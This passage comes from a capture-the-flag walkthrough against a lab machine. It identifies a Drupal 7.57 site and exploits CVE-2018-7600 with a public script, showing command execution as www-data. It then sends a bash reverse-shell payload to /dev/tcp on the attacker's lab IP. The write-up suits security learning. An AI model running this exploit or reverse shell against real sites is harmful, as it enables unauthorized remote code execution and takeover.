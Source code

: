 ![restaur](2.png)

The site is in spanish, looking at the footer we find that the website is running on `drupal`.

To know the exact version we can visit `http://10.150.150.182/restaurante/CHANGELOG.txt`

```text
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

```

The version is `Drupal 7.57`

## **Foothold**

### Method #1 (Drupal)

Searching on google for exploits in drupal we find [CVE-2018-7600](https://nvd.nist.gov/vuln/detail/CVE-2018-7600), an arbitrary code execution vulnerability.

The exploit I'll be using can be found here : <https://github.com/pimps/CVE-2018-7600>.

Let's test the exploit by running the command id.

```terminal
[★]$ python drupa7-CVE-2018-7600.py http://10.150.150.182/restaurante/ -c id                                                    

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-EWShZVFZATOB9qvRYRXmhNU6Cf89UX92f9mY_35acQY
[*] Triggering exploit to execute: id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked! Now let's get a reverse shell by using this payload `bash -c "bash -i >& /dev/tcp/10.66.66.230/9001 0>&1"`.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/new/CVE-2018-7600]
└──╼[★]$ python drupa7-CVE-2018-7600.py http://10.150.150.182/restaurante/ -c 'bash -c "bash -i >& /dev/tcp/10.66.66.230/9001 0>&1"'

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-mQ7rsTUJtkWHz_GeAA51LWq4TOrZS5udnMsgmTXZO9c
[*] Triggering exploit to execute: bash -c "bash -i >& /dev/tcp/10.66.66.230/9001 0>&1"

```
